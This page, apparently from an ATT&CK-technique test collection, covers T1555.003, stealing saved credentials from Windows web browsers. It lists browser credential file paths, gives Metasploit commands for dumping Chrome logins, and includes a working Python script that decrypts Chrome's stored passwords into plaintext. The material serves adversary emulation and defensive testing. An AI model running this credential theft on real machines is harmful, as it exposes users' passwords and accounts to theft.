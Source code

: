 # T1555.003-Win-来自Web浏览器的凭证

## 描述

攻击者可能通过访问Web浏览器存储的配置文件、数据库或内存，提取用户凭据（如网站用户名和密码）。常见浏览器（如Chrome、Firefox、Edge、Opera）通常将凭据以加密形式保存在本地文件中，但攻击者可利用系统API（如`CryptUnprotectData`）或解密工具提取明文凭据。攻击者还可能通过内存转储或模式匹配直接从浏览器进程内存中获取凭据。

凭据存储位置因浏览器而异：
- **Chrome**：`%LocalAppData%\Google\Chrome\User Data\Default\Login Data`
- **Firefox**：`%APPDATA%\Mozilla\Firefox\Profiles\<random_profile>\key4.db`和`logins.json`
- **Opera**：`%AppData%\Opera Software\Opera Stable\Login Data`
- **Edge**：`%LocalAppData%\Microsoft\Edge\User Data\Default\Login Data`

提取的凭据可用于凭据重用、横向移动或访问特权账户（如域管理员），显著缩短攻击时间。此攻击通常无需提权，普通用户权限即可执行，隐蔽性高。

## 测试案例

### 测试案例1：使用Metasploit提取Chrome凭据
通过Metasploit的`post/windows/gather/credentials/chrome`模块提取Chrome保存的凭据。

**命令**：
```plaintext
msf6 > use post/windows/gather/credentials/chrome
msf6 post(windows/gather/credentials/chrome) > set SESSION <session_id>
msf6 post(windows/gather/credentials/chrome) > run
```

- **说明**：
  - 提取`Login Data`文件中的加密凭据，使用`CryptUnprotectData`解密。
  - 输出URL、用户名和明文密码。
- **权限**：普通用户权限（需访问用户目录）。
- **支持系统**：Windows7、WindowsServer2008及以上。

### 测试案例2：手动提取并解密Chrome凭据
通过SQL查询Chrome的`Login Data`文件，结合Python脚本解密密码。

**命令**：
```cmd
copy "%LocalAppData%\Google\Chrome\User Data\Default\Login Data" C:\Temp\LoginData.sqlite
```

**Python脚本**（需安装`pywin32`和`sqlite3`）：
```python
import os
import sqlite3
import win32crypt

db_path = r"C:\Temp\LoginData.sqlite"
conn = sqlite3.connect(db_path)
cursor = conn.cursor()
cursor.execute("SELECT action_url, username_value, password_value FROM logins")
for row in cursor.fetchall():
    url, username, encrypted_password = row
    try:
        password = win32crypt.CryptUnprotectData(encrypted_password, None, None, None, 0)[1].decode()
        print(f"URL: {url}, Username: {username}, Password: {password}")
    except:
        print(f"URL: {url}, Username: {username}, Password: [Failed to decrypt]")
conn.close()
```
